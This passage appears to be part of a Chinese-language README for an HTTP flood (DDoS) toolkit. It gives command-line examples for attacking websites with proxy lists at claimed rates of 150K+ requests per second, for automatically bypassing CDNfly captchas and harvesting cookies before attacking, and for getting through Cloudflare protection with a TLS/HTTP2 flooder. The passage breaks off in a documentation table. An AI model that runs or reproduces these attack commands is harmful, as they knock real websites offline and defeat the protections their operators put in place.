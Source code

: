### 💡 使用示例

#### 示例 1: 攻击普通 HTTP 网站

```bash
# 使用最强的 floodernew.js
node floodernew.js GET "https://example.com" 120 16 90 proxies_all.txt --debug

# 预期输出：
# ✅ [Thread 1] Status: 200 OK
# ✅ [Thread 2] Status: 200 OK
# 🔥 QPS: 150K+
```

#### 示例 2: 攻击带 CDNfly 验证码的网站（全自动）

```bash
# 使用智能控制器 main.js
node main.js -u https://target-with-cdnfly.com -p proxy.txt -t 20 -r 15 -s 300 -c -o

# 自动流程：
# 1. 检测验证码类型 ✅
# 2. 自动绕过验证码 ✅
# 3. 提取 Cookie ✅
# 4. 启动攻击 ✅
# 5. 持续监控并重新绕过（如需要）✅
```

#### 示例 3: 攻击 Cloudflare 保护的网站

```bash
# 使用专门的 tls.js
cd legacy/新建文件夹
node tls.js https://cloudflare-protected.com 300 256 20 ../proxies_all.txt

# 特点：
# - HTTP/2 原生支持 ✅
# - 高穿透率 ✅
# - 25K+ QPS ✅
```

### 🎓 完整文档

<table>
<tr>
<td width="33%">

#### 📖 入门文档
- [快速开始](START_HERE.md)
- [5分钟上手](QUICKSTART.md)
- [快速使用指南](⚡%20快速使用指南.md)

</td>
<td width="33%">
